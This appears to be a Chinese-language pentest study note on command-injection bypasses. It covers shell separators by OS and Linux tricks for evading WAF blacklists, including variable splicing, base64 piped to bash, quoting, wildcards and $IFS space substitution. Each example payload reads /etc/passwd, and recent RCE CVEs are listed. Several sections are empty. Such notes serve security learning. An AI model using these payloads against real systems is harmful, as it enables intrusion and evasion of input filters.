

## 绕过技巧

### 管道符绕过

|       | &                                   | &&                                               | \|                                   | \|\|                                             | ;    | `                          |
| ----- | ----------------------------------- | ------------------------------------------------ | ------------------------------------ | ------------------------------------------------ | ---- | -------------------------- |
| Win   | 两边都执行                          | 可以理解为逻辑与,如果第一个命令错误,右边的不执行 | 管道符,右边命令正确,左边才可能会执行 | 可以理解为逻辑或,如果第一个命令正确,右边的不执行 | N/A  | N/A                        |
| Linux | Debian系:两边都执行<br />RH 系:待定 | 同Win                                            | Debian系:两边都执行<br />RH系:待定   | 同Win                                            | 同&  | 将返回的字符串当做命令执行 |


### 黑名单绕过:

### Windows下


### Linux下

1. 变量拼接绕过

   ```
   a=ca;b=t;$a$b /etc/passwd		#该命令就是cat /etc/passwd  用来绕过waf
   ```

2. base64编码绕过(Linux会将反引号内的内容当中命令执行)

   ```
   `echo "Y2F0IC9ldGMvcGFzc3dk"|base64 -d`
   或者
   echo "Y2F0IC9ldGMvcGFzc3dk"|base64 -d|bash
   ```

3. 单双引号绕过

   ```
   ca""t /etc/pass''wd		#
   ```

4. 反斜杠绕过

   ```
   ca\t /etc/passwd
   ```

5. 可变扩展绕过

   ```
   /???/c?t /???/p?ss??	#Linux自动去匹配/三个字符/c什么t的命令  /三个字符/p什么ss什么的文件
   ```

6. 通配符绕过

   ```
   
   ```

7. 长度限制绕过

   ```
   通过构造文件来绕过
   linux下可以用
   1>a创建名为a的空文件
   
   ls -t>test则会将目录按时间排序后写进test文件中
   sh命令可以从一个文件中读取命令来执行
   ```

8. 过滤空格绕过:

   ```
   cat</etc/passwd
   cat<>/etc/passwd
   
   {cat,/etc/passwd}
   
   cat$IFS/etc/passwd
   
   echo${IFS}"RCE"${IFS}&&cat${IFS}/etc/passwd
   
   x=$'uname\x20-a'&&&$x
   
   windows平台
   ping%CommonProgramFiles:~10,-18%ip
   ping%PROGRAMFILES:~10,-5%IP
   ```

9. 引号逃逸

   ```
   当恶意命令被括在引号内时,可以使用\转义引号逃逸
   ```

绕过姿势文章:

>  https://blog.51cto.com/m0re/3879244#_106

## 你知道近两年出现哪些命令执行的漏洞吗

### log4j  了解清楚

CNNVD编号：CNNVD-202112-2743

CVE编号： CVE-2021-44832


### 向日葵RCE

[CNVD-2022-10270/CNVD-2022-03672 向日葵RCE复现](https://www.cnblogs.com/peace-and-romance/p/15905365.html)


### weblogic server RCE

CVE-2020-14882&14883


### Fastjson RCE 1.2.80

CVE-2022-25845


### SpringFramework RCE

CVE-2022-22965


## php命令执行相关函数:





## 命令执行的绕过方法

